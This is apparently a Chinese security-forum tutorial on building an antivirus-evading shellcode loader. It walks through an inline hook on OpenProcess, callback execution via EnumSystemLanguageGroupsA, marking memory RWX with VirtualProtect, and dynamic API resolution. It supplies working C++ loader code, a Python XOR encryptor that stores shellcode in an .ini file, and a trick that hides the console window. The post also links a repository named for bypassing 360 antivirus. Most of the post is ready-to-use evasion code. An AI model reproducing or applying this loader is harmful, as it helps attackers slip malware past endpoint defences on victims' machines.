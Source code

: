 0x00 先展示效果图
===========

![finish.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-0615c0505f0c0f05107afb2cd024866947f5f770.png)

![finish2.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-8c57901a9213d9d08fc6d6df4c16c94e9cdbe743.png)

0x01 本文知识
=========

**1.shellcode的加解密**

这里我依旧是使用简单的异或和我上一篇文章的`GetPrivateProfileIntA`这个api来获取加密后的shellcode，只不过改进了一下，上一篇文章地址https://forum.butian.net/share/1805

![getint.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-115517c15602a78c1b46d3e2cc720125e04d12dd.png)

**2.virtualprotect**

官方介绍地址https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect  
简单来说可以把一块内存变为可写可读可执行

**3.EnumSystemLanguageGroupsA**

这个api的第一个参数是回调函数的指针，我们可以利用这一个参数执行我们的shellcode

![enum.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-8da1294b47be601f0d45123a541809864a225bb2.png)  
剩余的参数跟着文档随便填即可，官方介绍https://docs.microsoft.com/en-us/windows/win32/api/winnls/nf-winnls-enumsystemlanguagegroupsa

**4.WriteProcessMemory**

该api在指定进程中写入内存，官方介绍https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory

**5.GetProcAddress和GetModuleHandleA**

利用这两个api可以获取某个api的地址，从而利用函数指针进行动态调用

![addr.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-66b992f9a1bffe5c5d9e52af7d5103f36359b3ad.png)  
可以看到成功打印openprocess这个api的地址

**6.GetCurrentProcess**  
这个api是获取当前进程的句柄

**7.inline hook**  
inline hook的可以拦截某个api，当调用那个api的时候可以跳转到我们自定义的函数，这个时候我们可以跳转到我们的shellcode，从而执行shellcode

它的实现是更改程序写入`jmp 地址`来实现跳转，jmp指令一共需要5个字节，jmp对应的机器码为E9，在jmp命令中，后面跟的地址是偏移地址，而不是具体的地址，在inline hook中它的偏移地址计算公式为 `偏移量=目标地址-原始地址-5`，我们在使用时只需记住这个公式即可

师傅们可以在b站看下这个视频https://www.bilibili.com/video/BV1Ap4y1h72r?spm\_id\_from=333.337.search-card.all.click

**8,GetCurrentDirectoryA**  
该函数获取当前目录

![str.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-f787cffb9dd845099c0079d452d200094e94bb05.png)  
**9.strcat**  
字符串拼接

![str.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-cbe3d0b681fb33959a764aef8024c7112d99627f.png)  
**10.**`#pragma comment(linker, "/subsystem:windows /entry:mainCRTStartup")`  
**作用是不显示黑窗口**

0x02 实战
=======

**本文inline hook实现免杀流程：  
1.构造跳转指令  
2.找到要hook的函数地址，把该函数的前5个字节改成我们跳转到shllcode的恶意指令  
3.运行该函数**

我们写一个类，类名为InLine，类中定义这三个成员变量

```php
BYTE NewByte[5]={0};//保存我们构造的jmp跳转指令
PROC FuncAddr;//存放需要跳转的函数地址
PROC HookFunc;//存放需要hook的api地址
```

然后在写一个构造函数

```php
 InLine(PROC Func){
    FuncAddr=Func;//把func赋值给FuncAddr
    if (FuncAddr == NULL) {
        exit(1);
    } //这里判段我们需要跳转到的函数的地址是否为空，如果为空，则退出
    hookFunc = GetProcAddress(
        GetModuleHandleA("Kernel32.dll"),
        "OpenProcess"
    );//这里是获取我们需要hook的api的地址，我们这里是hook OpenProcess这个api
    if (hookFunc == NULL) {
        exit(1);
    } //这里判段需要hook的api是否为空，如果是则退出
    SIZE_T d;
    Newbyte[0] = '\xE9';//这里构建jmp指令
    *(DWORD*)(Newbyte + 1) = (DWORD)FuncAddr - (DWORD)hookFunc - 5;//这里加1是为了不把jmp给覆盖，然后把偏移地址赋值到NewByte中
    WriteProcessMemory(GetCurrentProcess(), hookFunc, Newbyte, 5, &d);//这里就是把定义好的跳转指令写入到我们需要hook的api的前5个字节中
    EnumSystemLanguageGroupsA((LANGUAGEGROUP_ENUMPROCA)hookFunc, LGRPID_INSTALLED, NULL);//这个api作用是利用第一个参数（回调函数）来执行我们修改了前5个字节的api
 }
```

我们的hook代码已经写完了，现在只需要把我们的shellcode所在的地方改为可执行，并且把shellcode的地址赋值给类中的funcaddr即可

```php
    unsigned char buf[] ="这里是shellcode";
    DWORD i;
    VirtualProtect(&buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &i);//PAGE_EXECUTE_READWRITE代表可读可写可执行
    InLine bh((PROC)&buf);
```

![class.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-46e683abcec0cdeadbf434e12087a47be3620e04.png)  
可以看到shellcode正常上线

接下来我们用GetProcAddress和GetModuleHandleA这两个api来动态调用我们的一些api

```php
typedef BOOL(WINAPI* Write)(
    HANDLE      hprocess,
    LPVOID      BaseAddr,
    LPCVOID     BUffer,
    SIZE_T      Size,
    SIZE_T*     NumberOfBytes
    );
Write Writer = (Write)GetProcAddress(
    GetModuleHandleA("Kernel32.dll"),
    "WriteProcessMemory"
);

typedef BOOL(WINAPI* vp)(
    LPVOID      Address,
    DWORD       size,
    DWORD       New,
    PDWORD      Old
    );
vp vip = (vp)GetProcAddress(
    GetModuleHandleA("Kernel32.dll"),
    "VirtualProtect"
);
```

随后我们把代码中的writeprocessmemory和virtualprotect这两个api分别换成Writer和vip

![write.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-ecf1828a2e222600e13a83da3a9d1c7131a57a7a.png)

![VIP.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-f3b92a58d0d73ff602f4b7bf3f18eb18624adf55.png)

**一切准备就绪，就差shellcode的加解密了**  
这里我用上一篇文章的方法，脚本也和上一篇文章一模一样，这里就不在多说了  
![getint.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-00c6f4772daf24193f30a598ed78e7c98fdc7d71.png)

```php
char path[MAX_PATH];
char abc[3000];
unsigned char cba[3000];
DWORD d;
vip(cba, sizeof(cba), PAGE_EXECUTE_READWRITE, &d);
GetCurrentDirectoryA(MAX_PATH, path);
strcat(path, "\\sc.ini");
for (int i = 0; i < 3000; i++) {
    _itoa_s(i, abc, 10);
    UINT ok = GetPrivateProfileIntA("key", abc, NULL, path);
    if (ok == 0) {break;}
    cba[i] = ok^1024;
}
InLine I((PROC)&cba);
```

Python shellcode加密代码（简单的异或加密）：

```php
print(" _")
print("| |__  _   _ _ __   __ _ ___ ___")
print("| '_ \| | | | '_ \ / _` / __/ __|")
print("| |_) | |_| | |_) | (_| \__ \__ \\")
print("|_.__/ \__, | .__/ \__,_|___/___/")
print("       |___/|_|")
shellcode_=b"" #shellcode放在这里shellcode放在这里
shellcode=[]
for i in shellcode_:
    shellcode.append(str(i^1024))
shellcode=",".join(shellcode).split(",")
file=open("sc.ini","w")
file.write("[key]\n")
n=0
for i in shellcode:
    file.write(f"{n}={i}\n")
    n+=1
file.close()
```

随后把sc.ini文件和exe文件放在同一目录运行后可以正常上线

![ll.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-c24b6b4c2a5b51defbbae0d038e8f91470edfc5a.png)

0x03 结尾
=======

在命令行使用的时候，需要cd到exe和sc.ini文件所在的目录，不然无法上线!!!

完整代码我发在了github上，地址https://github.com/wz-wsl/360bypass

师傅们可以把SMC技术用到免杀上来，最后祝各位师傅们玩得开心呀！